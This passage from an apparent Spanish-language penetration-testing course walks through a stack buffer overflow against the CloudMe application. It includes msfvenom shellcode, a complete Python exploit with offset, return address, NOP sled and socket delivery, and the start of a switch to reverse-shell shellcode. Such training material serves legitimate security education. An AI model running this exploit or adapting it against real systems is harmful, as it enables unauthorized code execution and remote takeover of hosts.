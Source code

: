 Nuestro paso final es explotar el programa, por lo que comenzaremos creando nuestro shellcode con el que `msfvenom` abriremos `calc.exe` como prueba de explotación exitosa:

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
...SNIP...
```

Ahora, para crear nuestra función final `exploit()`, primero agregaremos la salida anterior y usaremos la misma `payload` de nuestro exploit anterior (mientras cambiamos `offset` la dirección en `eip`). Finalmente, usaremos el mismo código de `bad_chars()` para enviar nuestra carga útil al puerto:

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf = b""
    ...SNIP...
    buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

exploit()
```

Finalmente, podemos ejecutar `CloudMe` (no necesariamente en `x32dbg`) y ejecutar nuestro exploit, y deberíamos ver que se bloquea y debería abrirse una calculadora.
## Explotación remota

omo hemos creado y probado nuestro exploit, ahora podemos intentar ejecutarlo en un servidor remoto real. Podemos usar el mismo exploit en el objetivo real y solo tenemos que cambiar el `IP`y `port`en nuestro script para apuntarlo al nuevo objetivo y cambiar el shellcode que usamos dentro del script a algo que nos envíe un shell inverso.

---

## Código de shell de shell inverso

Primero, necesitamos encontrar la IP de nuestra máquina, a la que debería poder acceder el servidor remoto (en la misma subred de la red):
